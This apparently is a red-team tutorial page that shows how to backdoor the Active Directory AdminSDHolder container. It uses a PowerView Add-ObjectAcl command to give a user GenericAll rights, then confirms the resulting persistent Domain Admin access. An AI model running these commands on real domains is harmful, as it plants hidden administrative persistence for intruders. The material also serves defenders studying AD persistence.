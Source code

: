# Backdooring AdminSDHolder for Persistence

## AdminSDHolder

AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups \(like Domain Admins, Enterprise Admins, etc.\) to prevent their accidental and unintended modifications and to keep them secure.

Once you have agained Domain Admin privileges, `AdminSDHolder` container can be abused by backdooring it by giving your user `GenericAll` privileges, which in effectively makes that user a Domain Admin.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-21-53.png)

This is actually what happens to the container - the security ACLs get updated and spotless gets all the privileges:

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-24-32.png)

After 60+ minutes, the changes will propagate automatically, but if you want to force it \(if you are testing this in your labs\), you can do it via ldp.exe by Modifying DN like so:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-01.png)

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-30.png)

We can now hop back to the Domain Admins any time we want to:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-12-38.png)

In fact, we do not even need to be part of DA group, we still have full access to the DC:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-19-14.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" caption="" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/" caption="" %}

{% embed url="https://adsecurity.org/?p=1906" caption="" %}

{% embed url="https://blog.stealthbits.com/persistence-using-adminsdholder-and-sdprop/" caption="" %}

